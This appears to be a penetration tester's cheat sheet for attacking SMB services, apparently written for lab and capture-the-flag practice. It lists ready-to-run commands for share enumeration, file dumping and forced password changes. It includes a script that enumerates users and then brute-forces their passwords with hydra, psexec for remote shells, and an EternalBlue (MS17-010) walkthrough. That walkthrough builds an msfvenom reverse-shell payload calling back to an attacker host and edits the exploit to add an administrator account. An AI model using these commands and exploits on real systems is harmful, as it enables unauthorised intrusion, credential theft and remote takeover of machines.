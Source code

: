 # (139,445) SMB

<details>

<summary>List shares</summary>

```bash
# Anonymous/Null Session
smbclient -L //10.130.40.80 -N
nxc smb 10.10.11.174 -u '' -p '' --shares

# Guest Session
smbclient -L //10.10.11.174 -U=milesdyson
nxc smb 10.10.11.174 -u '' -p '' --shares
impacket-smbclient a@10.10.11.174
```

#### List all files in a share recursively

```bash
smbclient //10.11.1.231/home -N -c 'recurse;ls'
smbmap -H <ip> -R
nxc smb 10.10.11.174 -u jack -p P@ssw0rd123! -M spider_plus
```

</details>

<details>

<summary>SMB Version </summary>

```bash
smb_version 10.11.1.115
```

* Used this [tool](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) but changed `tap0` to `tun0`

### SMB1

* Susceptible to known attacks (Eternal blue , wanna cry)
* Disabled by default in newer Windows version
* Versions:&#x20;
  * Windows 2000, XP and Windows 2003

### SMB2

* Reduced "chattiness" of SMB1
* Guest access disabled by default
* Versions:&#x20;
  * SMB2: Windows Vista SP1 and Windows 2008
  * SMB2.1: Windows 7 and Windows 2008 R2

### SMB3

* Guest access disabled
* Uses encryption (most secure)
* Versions:
  * Windows 8 and Windows 2012.

</details>

<details>

<summary>SMB Username Enumeration</summary>

```bash
impacket-lookupsid svc_apache:'S@Ss!K@*t13'@'flight.htb'
```

</details>

<details>

<summary>Connect to shares</summary>

```bash
smbclient //10.10.215.173/milesdyson -U=milesdyson

impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb
shares --> to see available SMB shares
use <share_name> --> switch to this SMB share
get <filename> --> download the file


# List shares & view permissions
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --shares
# Dump all files from all readable shares
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k -M spider_plus
# Get Specific File
nxc smb dc1.scrm.local -u miscsvc -p ScrambledEggs9900 -k --share IT --get-file "Apps/Sales Order Client/ScrambleClient.exe" ScrambleClient.exe
```

Nxc Kerberos Authentication

```bash
rdate -n 10.10.11.168
nxc smb dc1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k
```

Spaces in share name

```bash
smbclient "//10.11.1.136/Bob Share/" -N
```

</details>

<details>

<summary>Increase Timeout For Large Files</summary>

```bash
smbclient //ZPH-SVRCDC01/C$ -U=internal.zsm.local/melissa
timeout 120
iosize 16384
```

</details>

<details>

<summary>STATUS_PASSWORD_MUST_CHANGE (Changing User's Password)</summary>

```bash
wget https://lira.epac.to/DOCS/python3-impacket/examples/smbpasswd.py
python smbpasswd.py baby.vl/Caroline.Robinson:'BabyStart123!'@10.10.71.170  -newpass 'P@ssw0rd123!'
```

</details>

<details>

<summary>Copy all files from SMB share</summary>

```bash
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
```

</details>

<details>

<summary>Enum4linux</summary>

```
enum4linux -a 10.11.67.208
```

</details>

<details>

<summary>Nmap</summary>

<pre class="language-bash"><code class="lang-bash"><strong>nmap -p 445 -script vuln 10.10.10.4
</strong></code></pre>

```bash
nmap --script=smb-enum-shares <ip>
```

```bash
nmap --script smb-* -p 139,445, 172.21.0.0
```

</details>

<details>

<summary>Mounting SMB Shares</summary>

Use `cp` to copy large files from SMB shares.

```bash
mount -t cifs //10.10.10.134/Backups /home/kali/Documents/htb/10.10.10.134/share
```

Specifying credentials:

```bash
mount -t cifs -o username=V.Ventz //192.168.231.175/"Password Audit" /home/kali/Documents/pg_practice/192.168.231.175/share
```

</details>

<details>

<summary>SMB to Reverse shell</summary>

<pre class="language-bash"><code class="lang-bash"><strong>/usr/share/doc/python3-impacket/examples/psexec.py username:password@hostIP
</strong></code></pre>

PsExec is a portable tool from Microsoft that lets you run processes remotely using any user's credentials

</details>

<details>

<summary>HAIL MARY SCRIPT</summary>

```bash
smb_allenum 10.10.10.10
```

```bash
#!/bin/bash
# smbenum 0.2 - This script will enumerate SMB using every tool in the arsenal
# SECFORCE - Antonio Quina
# All credits to Bernardo Damele A. G. <bernardo.damele@gmail.com> for the ms08-067_check.py script

IFACE="eth0"

if [ $# -eq 0 ]
    then
        echo "Usage: $0 <IP>"
        echo "eg: $0 10.10.10.10"
        exit
    else
        IP="$1"
fi

echo -e "\n########## Getting Netbios name ##########"
nbtscan -v -h $IP

echo -e "\n########## Checking for NULL sessions ##########"
output=`bash -c "echo 'srvinfo' | rpcclient $IP -U%"`
echo $output

echo -e "\n########## Enumerating domains ##########"
bash -c "echo 'enumdomains' | rpcclient $IP -U%"

echo -e "\n########## Enumerating password and lockout policies ##########"
polenum $IP

echo -e "\n########## Enumerating users ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-users $IP
bash -c "echo 'enumdomusers' | rpcclient $IP -U%"
bash -c "echo 'enumdomusers' | rpcclient $IP -U%" | cut -d[ -f2 | cut -d] -f1 > /tmp/$IP-users.txt

echo -e "\n########## Enumerating Administrators ##########"
net rpc group members "Administrators" -I $IP -U%

echo -e "\n########## Enumerating Domain Admins ##########"
net rpc group members "Domain Admins" -I $IP -U%

echo -e "\n########## Enumerating groups ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-groups $IP

echo -e "\n########## Enumerating shares ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-shares $IP

echo -e "\n########## Bruteforcing all users with 'password', blank and username as password"
hydra -e ns -L /tmp/$IP-users.txt -p password $IP smb -t 1
rm /tmp/$IP-users.txt
```

</details>

<details>

<summary>MS17-010 (Eternal Blue)</summary>

CVE-2017-0143

1. `git clone https://github.com/worawit/MS17-010`
2.  Generate a reverse shell (`shell.exe`) using&#x20;

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f exe > shell.exe
    ```
3. Edit the following section inside the `zzz_exploit.py` file.

<img src="../.gitbook/assets/image (24).png" alt="Before edit" data-size="original">

<img src="../.gitbook/assets/image (296).png" alt="After edit" data-size="original">

* If received `Not found accessible named pipe` --> use SMB Guest authentication creds instead (guest:)

### Create a user with admin rights (windows)

Sometimes it may not work, then need to add user and place user in administrator group.

```python
 def smb_pwn(conn, arch):
     smbConn = conn.get_smbconnection()
     service_exec(conn, r'cmd /c net user bill pass /add')
     service_exec(conn, r'cmd /c net localgroup administrators bill /add')
```

4. Setup nc listener and run `python2.7 zzz_exploit.py 10.10.10.4`

</details>
